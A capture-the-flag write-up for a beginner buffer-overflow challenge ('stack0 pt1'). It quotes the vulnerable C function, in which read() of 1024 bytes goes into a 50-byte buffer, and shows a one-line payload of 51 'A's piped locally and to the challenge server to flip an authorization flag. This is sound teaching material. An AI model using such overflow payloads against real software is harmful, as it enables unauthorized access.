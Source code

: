 # stack0 pt1
**Category:** Pwn
**Points:** 5
**Description:**
Author: C0deH4cker

Read the contents of flag1.txt.

nc ctf.hackucf.org 32101

> stack0
> stack0.c
> libpwnableharness32.so

**Write-up**
This is a buffer overflow challenge, and the code file was provided.

First I tried just running the program:
```bash
> ./stack0
Debug info: Address of input buffer = 0xff862aed
Enter the name you used to purchase this program: fred
This program has not been purchased.
```

The buffer overflow is likely to be in the place the name is entered.

Looking at the code the important function seemed to be `handle_connection()` as it contains a `read()` call into a buffer of 50 chars:
```c
static void handle_connection(int sock) {
	bool didPurchase = false;
	char input[50];
	
	printf("Debug info: Address of input buffer = %p\n", input);
	
	printf("Enter the name you used to purchase this program: ");
	read(STDIN_FILENO, input, 1024);
	
	if(didPurchase) {
		printf("Thank you for purchasing Hackersoft Powersploit!\n");
		giveFlag();
	}
	else {
		printf("This program has not been purchased.\n");
	}
}
```

When the program runs it waits for input at this point, and overflowing the buffer may give a result. At first I tried overrunning by a single byte.
```bash
> python -c "print ('A' * 51)" | ./stack0
Debug info: Address of input buffer = 0xffa3892d
Enter the name you used to purchase this program: Thank you for purchasing Hackersoft Powersploit!
flag1.txt: No such file or directory
```

This shows the program is attempting to load the flag, so I ran it against the server:
```bash
> python -c "print('A' * 51)" | nc ctf.hackucf.org 32101
```

This worked, and gave me the flag.
